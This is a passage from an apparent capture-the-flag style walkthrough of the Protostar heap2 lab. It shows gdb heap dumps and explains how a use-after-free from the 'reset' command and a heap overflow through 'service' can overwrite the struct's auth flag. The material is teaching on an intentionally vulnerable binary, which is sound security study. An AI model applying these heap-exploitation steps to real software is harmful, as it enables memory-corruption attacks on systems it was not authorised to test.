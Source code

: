 ```shell
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
----------auth------------------------------------------------------------------
$5 = {name = "AAAA\n\000\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
----------service---------------------------------------------------------------
$6 = 0x0
[ auth = 0x804c008, service = (nil) ]
```

Here, we use the `auth` command to allocate memory for our input (AAAA), but if you looks closely from the heap at `0x804c004`, this is the **size field** of our heap chunk, which indicates the size of the allocated chunk. The last bit of this field is used to determine **if the previous is free**. If it is the **first chunk**, then the last bit indicates that ***this chunk is in used***. 

But why does it contain the value **0x11** instead of **0x25** (the expected size of our `auth` struct)?

The issue comes from the variable name itself. Since the struct is also named **auth**, and there exists a global variable with the same name, calling `sizeof(auth)` actually **returns the size of the pointer auth** (4 bytes) instead of `sizeof(struct auth)`.

![faulty-variable-name](/image/protostar-heap/faulty-variable-name-heap2.png)

But this is not a major problem! When we use `login` command, it always references `auth->auth`, which translates to `auth + 32`. Also, we know that the `reset` command introduces a **Use-After-Free (UAF)** bug, causing **auth** to point to deallocated memory. 

With this in mind, we can exploit heap overflow using the `service` command, which allocates a new string on the heap. By using the `reset` command, we can control where this new string is stored, as the freed chunk is placed in the **fast bin**. 

Our objective here is to overflow the heap until we successfully overwrite the `auth` variable inside the struct, which is located **0x20 (32 in decimal)** bytes away from the **name** property.

A crucial detail to note is that the chunk size is **0x11**, meaning our input for the `service` command should be precisely **7 bytes long**. This requirement arises from `strdup(line + 7)`, which copies the input starting at the 7th byte, including the space character (0x20 in hex).

```shell
[ auth = 0x804c008, service = (nil) ]
reset

Breakpoint 1, 0x0804895f in main (argc=1, argv=0xbffff864) at heap2/heap2.c:20
20      in heap2/heap2.c
0x804c000:      0x00000000      0x00000011      0x00000000      0x0000000a
0x804c010:      0x00000000      0x00000ff1      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c0d0:      0x00000000      0x00000000      0x00000000      0x00000000
----------auth------------------------------------------------------------------
$39 = {name = "\000\000\000\000\n\000\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
```